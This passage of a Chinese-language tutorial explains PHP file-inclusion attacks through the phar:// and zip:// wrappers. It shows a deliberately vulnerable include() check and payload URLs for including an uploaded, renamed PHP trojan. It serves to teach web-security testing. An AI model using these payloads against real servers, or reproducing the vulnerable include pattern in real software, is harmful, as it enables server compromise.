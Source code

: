 ```php
glob:// 查找匹配的文件路径模式
```

#### phar://

利用条件：

```php
php版本大于等于php5.3.0
```

理解：

如果服务器只允许包含.php文件，后台代码为：`include(xxx + '.php');`，而这个.php文件不可控。但是我们可以上传一个.txt文件，那么我们可以通过phar伪协议来包含这个文件，而且phar协议不以后缀名判断文件类型，所以我们将我们的test.php木马压缩以后改为a.txt文件上传到服务器上，之后可以构造payload：`phar://a.txt/test`，服务器拼接以后就成为了：`phar://a.txt/test.php`，即可成功包含

姿势：

假设有个文件phpinfo.txt，其内容为`<?php phpinfo(); ?>`，打包成zip压缩包

指定绝对路径

```php
index.php?file=phar://D:/phpStudy/WWW/fileinclude/test.zip/phpinfo.txt
```

或者使用相对路径（这里test.zip就在当前目录下）

```php
index.php?file=phar://test.zip/phpinfo.txt
```

#### zip://

利用条件：

```php
php版本大于等于php5.3.0
```

```php
<?php
$file = $_GET['file'];
if(isset($file) && strtolower(substr($file, -4)) == ".jpg"){
    include($file);
}
?>
```

截取过来的后面4格字符,判断是不是jpg,如果是jpg才进行包含

但使用zip协议，需要指定绝对路径，同时将`#`编码为`%23`，之后填上压缩包内的文件。

然后我们构造`zip://php.zip#php.jpg`

```php
index.php?file=zip://D:\phpStudy\WWW\fileinclude\test.zip%23php.jpg
```

注意事项：
